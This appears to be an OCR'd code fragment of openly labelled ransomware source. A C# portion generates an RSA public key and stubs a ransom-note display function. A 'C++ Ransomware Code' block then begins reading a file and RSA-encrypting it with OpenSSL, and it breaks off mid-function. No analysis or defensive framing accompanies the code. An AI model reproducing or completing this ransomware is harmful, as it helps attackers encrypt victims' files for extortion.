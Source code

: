 ```csharp


    static string GeneratePublicKey()

    {

        using (RSACryptoServiceProvider rsa = new RSACryptoServiceProvider())

        {

            return rsa.ToXmlString(false);

        }

    }



    static void DisplayRansomNote(string publicKey)

    {

        // Insert code to display ransom note with the generated public key

    }

}

```



C++ Ransomware Code:

```cpp

#include <iostream>

#include <fstream>

#include <filesystem>

#include <openssl/rsa.h>

#include <openssl/pem.h>



void encryptFile(const std::string& filePath, RSA* rsa)

{

    std::ifstream file(filePath, std::ios::binary);

    std::string data((std::istreambuf_iterator<char>(file)), std::istreambuf_iterator<char>());

    file.close();



    int encryptedDataLength = RSA_size(rsa);

    unsigned char* encryptedData = new unsigned char[encryptedDataLength];


```